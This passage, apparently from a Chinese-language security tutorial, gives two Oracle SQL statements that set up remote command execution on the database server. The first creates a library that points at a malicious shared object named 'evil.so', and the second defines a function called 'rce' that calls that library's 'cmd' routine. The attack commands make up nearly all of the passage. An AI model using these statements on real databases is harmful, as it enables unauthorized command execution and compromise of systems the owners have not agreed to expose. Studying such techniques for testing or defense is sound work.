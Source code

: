 接下来创建 lib 即可

```plain
create or replace library lib_evils as '/opt/oracle/product/23c/dbhomeFree/evil.so';
```

[![](assets/1709112088-55b66780d3c05147101352579c87eeb9.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240228101442-2253dadc-d5df-1.png)

然后创建 rce 的 function

```plain
create or replace function rce(str varchar2) return varchar2 as language c library lib_evils name "cmd";
```
